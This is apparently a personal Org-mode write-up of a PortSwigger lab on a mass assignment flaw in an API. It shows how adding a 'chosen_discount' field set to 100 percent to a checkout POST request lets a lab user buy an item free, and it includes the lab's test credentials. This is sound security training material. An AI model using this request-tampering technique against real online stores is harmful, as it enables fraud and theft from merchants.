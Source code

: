 #+title: Exploiting a mass assignment vulnerability
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: API Pentesting Labs from Portswigger
#+date: 2023-12-18 Mon
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
  - [[#test-account][Test Account]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]

* Lab contain
** Test Account
- username: =wiener=
- password: =peter=
* End Goal
+ Exploit mass assignment vulnerability
+ Buy =Lightweight l33t Leather Jacket= to solve the lab
* Exploit
+ Access the lab
+ Login with test account
+ Add a product to cart
+ Click on Place order although don't have any credit. It will give error =Not enough store credit for this purchase=
+ Now observe these flow from http histroy in burpsuite
+ We found a api point with two http method

#+begin_src html
GET /api/checkout 
#+end_src
It gives the checkout product information
#+begin_src html
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]} 
#+end_src

And a =POST= request

#+begin_src html
POST /api/checkout HTTP/2

{"chosen_products":[{"product_id":"1","quantity":1}]} 
#+end_src

This request checkout the product. Send this request to repeater. Add =chosen_discount= property that we can see from the =GET= request. We will change =percentage= for =chosen_discount= to 100 so that we get 100% discount means we can buy the product absolutely free.

#+begin_src html
  POST /api/checkout HTTP/2  
  
  {
  "chosen_discount":
    {"percentage":100
  },
  "chosen_products":
    [{"product_id":"1","quantity":1}]}
#+end_src

Send this request. Make sure to add target product =Lighweight Leather Jacket=. This will checkout the product with 100% discount. Lab solved

